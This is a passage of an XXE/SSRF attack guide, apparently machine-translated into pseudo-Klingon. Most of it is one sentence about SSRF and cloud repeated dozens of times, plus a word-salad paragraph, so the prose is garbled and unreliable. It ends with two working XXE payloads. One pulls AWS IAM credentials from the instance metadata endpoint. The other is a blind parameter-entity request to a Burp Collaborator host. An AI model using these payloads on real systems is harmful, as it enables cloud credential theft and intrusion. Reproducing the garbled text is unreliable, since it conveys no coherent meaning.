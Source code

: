 Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **SSRF** (Server-Side Request Forgery) vItlhutlh **cloud** vIleghlaHbe'chugh **
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
### Blind SSRF

**QI'lop** **previously commented technique** vItlhutlh **server** **vulnerable** **show** **control** **server** **access** **make**. **'ach**, **XML entities** **allowed** **not**, **case** **XML parameter entities** **try** **could**:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://gtd8nhwxylcik0mt2dgvpeapkgq7ew.burpcollaborator.net"> %xxe; ]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```
### "Blind" SSRF - Exfiltrate data out-of-band
